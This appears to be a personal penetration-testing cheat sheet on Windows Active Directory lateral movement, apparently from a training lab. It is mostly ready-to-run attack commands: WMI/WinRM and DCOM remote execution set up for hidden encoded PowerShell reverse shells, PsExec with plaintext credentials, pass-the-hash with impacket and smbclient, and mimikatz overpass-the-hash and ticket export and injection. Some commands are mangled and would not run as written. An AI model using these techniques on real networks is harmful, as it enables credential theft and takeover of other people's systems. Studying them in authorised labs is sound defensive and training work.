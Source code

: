 ## WMI and WinRM: 
(We can gain rev shell jst by having user creds)  
We can create process on remote target if we have Domain Admin creds. Thus if we have domain admin creds we can gain reverse shell of any target in AD.

```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" (Creating calculator process by using jen creds(DA))
```
Does it work? (Return Value should be 0) 
##### Creating PS-Credential Object for gaining reverse shell 
LINUX:
```powershell
$username = 'jen'; (change this)  
$password = 'Nexus123!'; (change this)  
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;  
$credential = New-ObjectSystem.Management.Automation.PSCredential$username,$secureString;  
$Options = New-CimSessionOption -Protocol DCOM  
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options (target)  
$Command = 'powershell -nop -w hidden -e';(powershell one liner)  
start listener  
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```
WINDOWS:  
```
winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
and
start listener
winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e "
```
Note: For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

##### Powershell Remoting
```
New-PSSession -ComputerName 192.168.50.73 -Credential $credential 
Enter-PSSession 1 (we'll get shell)
```
**PSEXEC**: (we can get shell of users if we have their creds)  
Note: User must be part of admin local group, ADMIN$ share must be available and File and Printer Sharing has to be turned on
```
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## PASS THE HASH (PASSING NTLM) 
(Use when you can't crack the hash) (Port 445 required) 
Note: ADMIN$ share must be available and File and Printer Sharing has to be turned on
```
smbclient \\\\ip\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b (PTH for smb share)  

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b user@ip 
(LMHash:NTHash we don't know lmhash so we use 32 0's)  

impacket-wmiexec-hashes:2892D26CDF84D7A70E2EB3B9F05C425EAdministrator@192.168.50.73
```

## OVER PASS THE HASH: (Abusing NTLM to get TGT and TGS)  
```
sekurlsa::logonpasswords
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

whoami wont show new user name as it checks current process token and does not check kerberos ticket 
```
klist (nothing might be cached and its normal)  
net use \\files04 (Generating TGT in cache by authenticating to the file server)  
klist (this will show TGT)
.\PsExec.exe \\files04 cmd (psexec rely on kerberos auth so it works here)
```

## PASS THE TICKET
TGT can be used only on the acquired machine, whereas TGS offers flexibility. It can be exported or re-injected anywhere in network.  
If any reource is not accessible for our user and if its accessible for other user we can use this to get the privilegedd user's TGS to access that resource.
```
ls \\web04\backup (Not accessible?)  
sekurlsa::tickets /export (exports TGT and TGS in kirbi format)  
dir *.kirbi  
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi (injecting the ticket) 
klist  
ls \\web04\backup
```

## DCOM
COM - Creates software components that interacts with each other 
DCOM - Same but interacts with multiple computers in network 
Note: Our user should be local admin

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73")) (ip of target you wanna gain shell)

start listener

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell-nop-whidden-e","7")(pwsh one liner)
```